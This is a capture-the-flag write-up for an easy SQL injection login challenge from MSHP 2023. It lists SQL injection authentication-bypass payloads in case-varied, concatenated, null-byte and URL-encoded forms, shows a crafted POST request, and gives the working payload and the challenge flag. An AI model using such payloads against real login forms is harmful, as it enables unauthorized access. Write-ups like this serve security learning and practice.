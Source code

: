 # MSHP 2023 - [2] login inject0r  

**CTF Name:** MEGA SEKURAK HACKING PARTY 2023  
**Challenge name:** [2] login inject0r  
**Challenge description:**  
> Do you remember the good 0l' days where noone knew about UNION SELECT or TIME statements? Get back to r00ts with this twisted easy SQL injection.  
> UPDATE:  
> ' OR 1=1 --i? WTF Adam?  

**Challenge URL:** http://ctf.securitum.ninja/ctf2/  
**Challenge category:** websec/sqlinj  
**Challenge points:** 100  

* * *  

## Steps to solve  
Website that we were presented with was basically login form on black background, with green text "The Secure Vault of SQL" on the left.  

However, the source code was much more interesting. In the login form code, there were two comments specified for Adam (website developer) to notice. Guiding us towards *SQL injection attack*:  
![website_inspector.png](../_resources/website_inspector.png)  

> My thought at the time:  
> Did Adam disable whole string as it was presented, or did he use filters to disable arguments like: OR, equalization, sql comments (--)?  

Indeed providing **' OR 1=1 --'** did not work, and resulted in the following error:  
![error_one_one.png](../_resources/error_one_one.png)  
That hint made me think I should use odd numbers (which later turned out to be false).  

Whatever Adam did, I procedeed to craft payloads in the most various ways possible - making sure they differ the most from **' OR 1=1 --'**. Changing case of letters in **OR** was obvious for me (maybe applied filter will not recognise the operation):  
```  
Basic SQL injection:  
' oR 3333=3333 --'  
' oR 3333=3333 --  
' oR 3333=3333; --'  
' oR 3333=3333; --  

SQL concatenation:  
' o' + 'R 3333=3333 --'  
' o' + 'R 3333=3333 --  
' o' + 'R 3333=3333; --'  
' o' + 'R 3333=3333; --  
' o' || 'R 3333=3333 --'  
' o' || 'R 3333=3333 --  
' o' || 'R 3333=3333; --'  
' o' || 'R 3333=3333; --  

SQL null-byte injection:  
' o[%00]R 3333=3333 --'  
' o[%00]R 3333=3333 --  
' o[%00]R 3333=3333; --'  
' o[%00]R 3333=3333; --  

URL encoding:  
%27%20oR%203333%3D3333%20--%27		#' oR 3333=3333 --'  
%27%20oR%203333%3D3333%20--		#' oR 3333=3333 --  
%27%20oR%203333%3D3333%3B%20--%27	#' oR 3333=3333; --'  
%27%20oR%203333%3D3333%3B%20--		#' oR 3333=3333; --  
etc.  
```  

To test them quicker than manually, I repeated originating POST request with changed username and password parameters, for example:  
```http  
POST /ctf2/ HTTP/1.1  
Host: ctf.securitum.ninja  
Content-Length: 30  
Cache-Control: max-age=0  
Upgrade-Insecure-Requests: 1  
Origin: http://ctf.securitum.ninja  
Content-Type: application/x-www-form-urlencoded  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Referer: http://ctf.securitum.ninja/ctf2/  
Accept-Encoding: gzip, deflate  
Accept-Language: en-US,en;q=0.9  
Connection: close  

username='+oR+3333=3333+--'&password='+oR+3333=3333+--'  
```  

Nothing worked! I tried *sqlmap*, but it also failed.  

I asked about this issue on *MSHP Discord server*, and fellow helper guided me towards checking even numbers.  
I tested all previous payloads with **4444=4444**, but it still didn't work!  

At the end I was already tired of sitting, but I gave a chance testing various combinations with **2=2**... and bam!  
```  
' OR 2=2 --  
```  
it worked! there I was, greeted with flag in front of my eyes (kind of):  
![flag_msg.png](../_resources/flag_msg.png)  

```  
Welcome, hacker! Your flag is: }1#7m+UvR8Wr*g6@{_PHSM  
```  

Also, worth mentioning is the fact that this *SQL injection attack* worked for **both** parameters **username** and **password**, which means that the conditional statement in SQL formula is the same for them.  

Last step to retrieve the flag was reversing the string in python:  
```python  
preflag = "}1#7m+UvR8Wr*g6@{_PHSM"  
flag = preflag[::-1]  
print(flag)  
```  

```shell  
$ python3 flag.py  
MSHP_{@6g*rW8RvU+m7#1}  
```  

**FLAG:** MSHP_{@6g*rW8RvU+m7#1}  

## Additional comments  
This challenge took the most time from me in this whole competition, and I wasn't happy with the fact that the **ONLY** two working payloads were: **' OR 2=2 --'** and **' OR 2=2 --**  
It was a major issue for me, because my payloads were based on different case **oR/or**.
